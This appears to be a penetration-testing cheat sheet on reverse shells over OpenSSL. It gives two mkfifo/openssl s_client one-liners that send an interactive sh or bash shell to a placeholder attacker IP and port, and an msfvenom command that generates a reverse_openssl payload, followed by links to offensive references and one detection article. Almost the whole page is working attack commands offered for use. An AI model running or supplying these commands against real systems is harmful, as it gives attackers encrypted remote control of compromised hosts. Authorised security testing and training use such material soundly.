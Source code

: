 # OpenSSL

## 01 - One-liners

```
$ mkfifo /tmp/f; /bin/sh -i < /tmp/f 2>&1 | openssl s_client -quiet -connect <IP>:<PORT> > /tmp/f; rm /tmp/f

$ mkfifo /tmp/f; /bin/bash -i < /tmp/f 2>&1 | openssl s_client -quiet -connect <IP>:<PORT> > /tmp/f; rm /tmp/f
```

## 02 - Generate via `msfvenom`

```
$ msfvenom -p cmd/unix/reverse_openssl handlersslcert=[/path/to/file.pem] sslversion=[Auto | TLS | SSL23 | SSL3 | TLS1 | TLS1.1 | TLS1.2] lhost=<IP> lport=<PORT>
```

---
## References

### Github

- [D4Vinci: One-Lin3r](https://github.com/D4Vinci/One-Lin3r)

### Hacktricks

- [Hacktricks: Shells Linux](https://book.hacktricks.wiki/en/generic-hacking/reverse-shells/linux.html)

### Rio Asmara Suryadi

- [Rio Asmara Suryadi: OpenSSL for Reverse Shell](https://rioasmara.com/2020/06/22/openssl-for-reverse-shell/)

### Sandfly Security

- [Sandfly Security: Detecting and Investigating OpenSSL Backdoors on Linux](https://www.sandflysecurity.com/blog/detecting-and-investigating-openssl-backdoors-on-linux/)